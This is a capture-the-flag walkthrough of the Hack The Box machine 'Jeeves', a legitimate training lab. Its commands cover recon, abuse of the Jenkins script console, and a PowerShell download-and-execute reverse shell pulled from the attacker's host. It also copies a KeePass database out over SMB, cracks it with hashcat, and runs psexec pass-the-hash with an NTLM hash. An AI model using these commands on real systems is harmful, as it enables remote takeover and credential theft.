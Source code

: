 # Jeeves Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

nmap -sC -sV -oA jeeves 10.10.10.63 -T4

80/tcp    open  http         Microsoft IIS httpd 10.0

135/tcp   open  msrpc        Microsoft Windows RPC

445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)

50000/tcp open  http         Jetty 9.4.z-SNAPSHOT

# ${{\color{purple}Initial Foothold}}\ $

### After a long enumeration I found a directory on the port 50000 :

gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30

![image](https://user-images.githubusercontent.com/123066149/221349079-693bf87d-ce77-42a4-9202-9c5870f16c3b.png)

### And finally it's a jenkins server on this port :

### I made the following compromise after a long enumeration of the application :

![1](https://user-images.githubusercontent.com/123066149/221349399-6e26767c-4b25-4c35-8bb4-4c6790419b08.PNG)

![2](https://user-images.githubusercontent.com/123066149/221349403-c52a5a33-8b6b-424e-b505-3799e021f3e7.PNG)

![3](https://user-images.githubusercontent.com/123066149/221349405-39f5cdac-29cd-4fad-b038-cc229889d3db.PNG)

![4](https://user-images.githubusercontent.com/123066149/221349410-be77cc48-4028-4243-be5c-6ddf64e313ee.PNG)

# ${{\color{purple}Exploitation}}\ $

### I used a rev shell powershell to take control of the server :

``println "powershell.exe -c IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:80/Invoke-PowerShellTcp.ps1')".execute().text``

![image](https://user-images.githubusercontent.com/123066149/221349919-b08817a5-18a0-4eb7-8b91-e40a7951a69f.png)

![image](https://user-images.githubusercontent.com/123066149/221349939-b89184b9-59e7-4359-b400-dd4c66c8d1a4.png)

# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/221349980-62a6e845-6120-4764-a519-f86357e2cfe2.png)

### SMBserver on kali machine :

/usr/bin/impacket-smbserver kali .

![image](https://user-images.githubusercontent.com/123066149/221350050-1069ded2-46ff-4bf3-8532-6e21b7196467.png)

### mount share on windows machine :

``New-PSDrive -Name "sophie" -PSProvider "FileSystem" -Root "\\10.10.16.5\kali"``

``cd sophie:``

``cp C:\Users\kohsuke\Documents\CEH.kdbx .``

![5](https://user-images.githubusercontent.com/123066149/221350106-9358a2d7-d76f-4c1d-ade3-b3dd7849ad1d.PNG)

### Generate the hash of this file :

keepass2john CEH.kdbx

![image](https://user-images.githubusercontent.com/123066149/221350158-dcc7110f-8e0c-4e31-afea-ded436ef0ae5.png)

![image](https://user-images.githubusercontent.com/123066149/221350172-25786dd9-2d05-4cba-84c5-b8a39a82847f.png)

![image](https://user-images.githubusercontent.com/123066149/221350203-affa1903-fc80-47cf-bfa3-ae865ec83c7f.png)

### Finds the password with hashcat :

hashcat -m 13400 hash.txt /usr/share/wordlists/rockyou.txt

![image](https://user-images.githubusercontent.com/123066149/221350242-2a736320-afce-4401-a245-bd09e1496b46.png)

### Open the kdbx file with keepass :

![image](https://user-images.githubusercontent.com/123066149/221350296-925eda47-478c-48a4-a404-97f263246747.png)

### I tried the admin password but without success and with the hash of the backup account and we are admin :

/usr/bin/impacket-psexec  administrator@10.10.10.63

/usr/bin/impacket-psexec  administrator@10.10.10.63 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00

![image](https://user-images.githubusercontent.com/123066149/221350360-0b5fb083-eb17-4532-892c-511109165051.png)


### Last difficulty display the root password  :

``powershell (Get-Content hm.txt -Stream root.txt)``

![image](https://user-images.githubusercontent.com/123066149/221350462-3f880fc4-b85d-430d-a022-c93609025ea5.png)


# ${{\color{purple}Points of Improvement}}\ $

